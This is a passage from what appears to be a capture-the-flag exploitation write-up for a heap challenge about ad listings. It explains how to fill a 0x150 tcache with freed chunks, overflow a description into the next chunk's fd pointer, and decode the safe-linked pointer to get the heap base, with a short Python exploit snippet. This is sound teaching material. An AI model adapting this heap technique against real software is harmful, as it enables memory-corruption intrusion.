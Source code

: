 After that, to get a heap leak, it's enough to:
* Populate `0x150` sized TCache (used for the freed desk info structs) with 3 freed chunks like this:
	```
	┌──────────┐    ┌─►┌──────────┐    ┌─►┌──────────┐   
	│  BBBBBB  │    │  │  CCCCCC  │    │  │  DDDDDD  │   
	│ +0x14ab0 ├────┘  │ +0x14c00 ├────┘  │ +0x14d50 │   
	└──────────┘       └──────────┘       └──────────┘   
	```
	![0x150 TCache](writeup/img9.png "0x150 TCache")

* Create new listing (will pop TCache head for the description, hence _BBBBBB_ chunk) and overflow its description into _CCCCCC_ reaching its `fd` (pointing to _DDDDDD_)

	![CCCCCC chunk](writeup/img10.png "CCCCCC chunk")

* Preview the Ad and leak the `fd` pointer of _CCCCCC_ freed chunk (it's safe linked).

* Decrypt the safe linked `fd` pointer, and calculate heap base.

Code to do that is the following:

```py
# BBBBBB has been created before, to leak PIE base

add_listing_beta()
add_listing_beta_insert(b'C'*6, b'C'*8)
add_listing_beta_confirm()

add_listing_beta()
add_listing_beta_insert(b'D'*6, b'D'*8)
add_listing_beta_confirm()

# free the last 3 ads (will end up in tcache)
remove_listing(1)
remove_listing(1)
remove_listing(1)

# this will give back the last free'd chunk (BBBBBB)
add_listing_beta()
```